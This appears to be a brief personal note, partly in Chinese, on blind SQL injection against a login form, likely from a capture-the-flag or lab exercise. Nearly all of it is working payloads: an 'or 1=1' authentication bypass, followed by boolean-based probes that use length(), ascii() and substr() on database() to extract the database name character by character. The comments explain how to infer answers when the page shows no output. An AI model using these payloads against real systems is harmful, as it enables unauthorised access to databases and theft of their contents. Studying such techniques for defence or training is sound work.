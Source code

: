 # sql

username: admin' or 1=1 -- 
can login, but nothing happen, needs to get data in database

但是没有可以回显的地方，只能通过表达式，比如说
admin' or 1=1 order by 1--
正确的话就依旧登录成更，否则就是密码错误（判断无效）

username=admin' and length(database())>25 -- &password=fff
由于知道了用户名的确是admin, 所以用的and, 否则直接用or就好，可以出来数据库的大小

username=admin' and ascii(substr((select database()),1,1))=116
通过ascii可以
username=admin' and ascii(substr((select database()),1,1))>100

username=admin' and substr((select database()),1,1)='t' -- &password=fff

